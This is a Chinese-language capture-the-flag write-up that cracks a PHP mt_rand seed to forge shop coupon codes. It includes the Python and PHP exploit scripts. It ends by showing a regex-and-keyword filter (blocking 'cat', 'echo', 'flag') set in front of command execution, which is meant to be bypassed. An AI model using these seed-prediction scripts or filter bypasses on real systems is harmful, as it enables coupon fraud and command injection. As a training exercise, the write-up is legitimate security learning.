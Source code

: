 进入题目，是让你买个`ipone X`，注册账号并登录，送了一个优惠码

存在源码泄露，查看`source.php`，会看到优惠码生成的部分，以及待会第二个需要绕过的部分，这里先说第一个

它产生了一个随机数作伪随机数生成器的种子，所以我们可以通过爆破种子来预测优惠码生成序列，使用C语言工具[php_mt_seed](https://github.com/lepiaf/php_mt_seed)，读它的README，获悉该如何传入参数，写脚本生成参数：

```python
pad = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
q = "D1KlD56y4CIccwl" # your code
s = []

for i in q[:8]:
    s.append(pad.index(i))
for i in q[8:]:
    s.append(62-pad.index(i))

for p in s:
    print(str(p)+" "+str(p)+" 0 61  ", end="")

```

将生成的参数传入`php_mt_seed`，大概几十秒后能找到一个使用于`php 7.2.x`的种子（这里低于该版本的解释器生成的随机数序列是不同的，题目是`7.2.x`），接着将爆破的种子传入EXP脚本：

```php
<?php
$seed = 79978765;
mt_srand($seed);
$str_rand = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$len=24;
for ($c=0; $c<2; $c++){
    $auth='';
    for ( $i = 0; $i < $len; $i++ ){
        if($i<=($len/2))
            $auth.=substr($str_rand,mt_rand(0, strlen($str_rand) - 1), 1);
        else
            $auth.=substr($str_rand,(mt_rand(0, strlen($str_rand) - 1))*-1, 1);
    }
    echo $auth."\n";
}

```

这里需要按题目意思生成24为优惠码，将生成的优惠码填入，发起请求，提示购买成功，进入第二个页面，需要绕过一个正则：

```php
if (preg_match("/^\d+\.\d+\.\d+\.\d+$/im",$ip)){
    if (!preg_match("/\?|flag|}|cat|echo|\*/i",$ip)){
        //执行命令
    }else {
        //flag字段和某些字符被过滤!
    }
}else{
    // 你的输入不正确!
}
```
